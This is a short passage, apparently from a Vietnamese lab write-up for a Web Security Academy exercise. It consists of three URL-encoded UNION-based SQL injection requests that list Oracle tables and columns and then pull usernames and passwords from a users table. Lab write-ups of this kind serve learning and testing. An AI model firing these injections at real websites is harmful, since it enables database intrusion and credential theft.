 ```
`https://0ad7002e03348430803d4a3000a200f6.web-security-academy.net/filter?category=%27%20union%20select%20%27null%27,%20table_name%20FROM%20all_tables%20--`

Xác định tên các cột:
`https://0ad7002e03348430803d4a3000a200f6.web-security-academy.net/filter?category=%27%20union%20select%20%27null%27,%20column_name%20FROM%20all_tab_columns%20WHERE%20table_name=%27USERS_GJNSVS%27--`

Xác định nội dung trong table: 
`https://0ad7002e03348430803d4a3000a200f6.web-security-academy.net/filter?category=%27%20union%20select%20%27USERNAME_WOQMGF%27,%20PASSWORD_JZCEBQ%20FROM%20USERS_GJNSVS%20--`



